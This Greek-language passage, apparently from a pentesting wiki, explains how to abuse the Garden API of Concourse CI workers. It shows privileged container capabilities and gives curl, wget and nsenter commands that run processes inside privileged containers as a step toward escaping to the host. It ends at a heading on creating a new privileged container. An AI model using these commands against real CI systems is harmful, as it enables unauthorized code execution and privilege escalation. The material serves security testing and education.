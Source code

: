 Από προεπιλογή, κάθε concourse worker θα εκτελεί μια [**Garden**](https://github.com/cloudfoundry/garden) υπηρεσία στη θύρα 7777. Αυτή η υπηρεσία χρησιμοποιείται από τον διαχειριστή του ιστού για να υποδείξει στον worker **τι χρειάζεται να εκτελέσει** (κατεβάστε την εικόνα και εκτελέστε κάθε εργασία). Αυτό ακούγεται αρκετά καλό για έναν επιτιθέμενο, αλλά υπάρχουν μερικές καλές προστασίες:

* Είναι απλώς **εκτεθειμένο τοπικά** (127..0.0.1) και νομίζω ότι όταν ο worker αυθεντικοποιείται απέναντι στον ιστό με την ειδική υπηρεσία SSH, δημιουργείται μια σήραγγα ώστε ο διακομιστής ιστού να μπορεί να **επικοινωνεί με κάθε υπηρεσία Garden** μέσα σε κάθε worker.
* Ο διακομιστής ιστού **παρακολουθεί τα εκτελούμενα κοντέινερ κάθε λίγα δευτερόλεπτα**, και τα **αναπάντεχα** κοντέινερ **διαγράφονται**. Έτσι, αν θέλετε να **εκτελέσετε ένα προσαρμοσμένο κοντέινερ**, πρέπει να **παρέμβετε** στην **επικοινωνία** μεταξύ του διακομιστή ιστού και της υπηρεσίας garden.

Οι concourse workers εκτελούνται με υψηλά δικαιώματα κοντέινερ:
```
Container Runtime: docker
Has Namespaces:
pid: true
user: false
AppArmor Profile: kernel
Capabilities:
BOUNDING -> chown dac_override dac_read_search fowner fsetid kill setgid setuid setpcap linux_immutable net_bind_service net_broadcast net_admin net_raw ipc_lock ipc_owner sys_module sys_rawio sys_chroot sys_ptrace sys_pacct sys_admin sys_boot sys_nice sys_resource sys_time sys_tty_config mknod lease audit_write audit_control setfcap mac_override mac_admin syslog wake_alarm block_suspend audit_read
Seccomp: disabled
```
Ωστόσο, τεχνικές όπως το **mounting** της συσκευής /dev του κόμβου ή του release\_agent **δεν θα λειτουργήσουν** (καθώς η πραγματική συσκευή με το filesystem του κόμβου δεν είναι προσβάσιμη, μόνο μία εικονική). Δεν μπορούμε να έχουμε πρόσβαση σε διαδικασίες του κόμβου, οπότε η διαφυγή από τον κόμβο χωρίς exploits πυρήνα γίνεται περίπλοκη.

{% hint style="info" %}
Στην προηγούμενη ενότητα είδαμε πώς να διαφύγουμε από ένα προνομιούχο κοντέινερ, οπότε αν μπορούμε να **εκτελέσουμε** εντολές σε ένα **προνομιούχο κοντέινερ** που δημιουργήθηκε από τον **τρέχοντα** **εργάτη**, θα μπορούσαμε να **διαφύγουμε στον κόμβο**.
{% endhint %}

Σημειώστε ότι παίζοντας με το concourse παρατήρησα ότι όταν δημιουργείται ένα νέο κοντέινερ για να τρέξει κάτι, οι διαδικασίες του κοντέινερ είναι προσβάσιμες από το κοντέινερ του εργάτη, οπότε είναι σαν ένα κοντέινερ να δημιουργεί ένα νέο κοντέινερ μέσα σε αυτό.

**Μπαίνοντας σε ένα τρέχον προνομιούχο κοντέινερ**
```bash
# Get current container
curl 127.0.0.1:7777/containers
{"Handles":["ac793559-7f53-4efc-6591-0171a0391e53","c6cae8fc-47ed-4eab-6b2e-f3bbe8880690"]}

# Get container info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/info
curl 127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/properties

# Execute a new process inside a container
## In this case "sleep 20000" will be executed in the container with handler ac793559-7f53-4efc-6591-0171a0391e53
wget -v -O- --post-data='{"id":"task2","path":"sh","args":["-cx","sleep 20000"],"dir":"/tmp/build/e55deab7","rlimits":{},"tty":{"window_size":{"columns":500,"rows":500}},"image":{}}' \
--header='Content-Type:application/json' \
'http://127.0.0.1:7777/containers/ac793559-7f53-4efc-6591-0171a0391e53/processes'

# OR instead of doing all of that, you could just get into the ns of the process of the privileged container
nsenter --target 76011 --mount --uts --ipc --net --pid -- sh
```
**Δημιουργία ενός νέου προνομιούχου κοντέινερ**

